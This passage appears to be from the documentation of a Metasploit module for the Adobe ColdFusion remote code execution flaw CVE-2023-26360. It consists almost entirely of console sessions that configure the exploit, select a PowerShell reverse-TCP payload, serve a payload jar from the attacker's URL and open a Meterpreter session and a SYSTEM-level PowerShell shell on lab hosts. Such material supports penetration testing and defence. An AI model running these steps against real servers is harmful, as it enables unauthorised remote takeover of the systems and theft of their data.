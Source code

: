 ```


View the full module info with the info, or info -d command.

msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set LHOST eth0
LHOST => 172.23.57.124
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set SRVHOST eth0
SRVHOST => 172.23.57.124
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.49.239
RHOST => 172.23.49.239
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.49.239:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.57.124:4444 
[*] Using URL: http://172.23.57.124:8080/
[*] Received payload request, transmitting payload jar...
[*] Received payload request, transmitting payload jar...
[*] Received payload request, transmitting payload jar...
[*] Sending stage (58851 bytes) to 172.23.49.239
[*] Meterpreter session 1 opened (172.23.57.124:4444 -> 172.23.49.239:49815) at 2023-04-11 14:10:13 +0100
[*] Server stopped.

meterpreter > getuid
Server username: WIN-9SIICLTVVC7$
meterpreter > pwd
C:\ColdFusion2021\cfusion\bin
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.49.239 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```

### Windows Command (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set LHOST eth0
LHOST => 172.23.9.70
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.13.12
RHOST => 172.23.13.12
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 1
target => 1
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD cmd/windows/powershell_reverse_tcp
PAYLOAD => cmd/windows/powershell_reverse_tcp
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.13.12:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Powershell session session 1 opened (172.23.9.70:4444 -> 172.23.13.12:57546) at 2023-04-06 12:20:27 +0100

PS C:\ColdFusion2021\cfusion\bin> whoami
nt authority\system
PS C:\ColdFusion2021\cfusion\bin> exit

[*] 172.23.13.12 - Powershell session session 1 closed.  Reason: User exit
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```
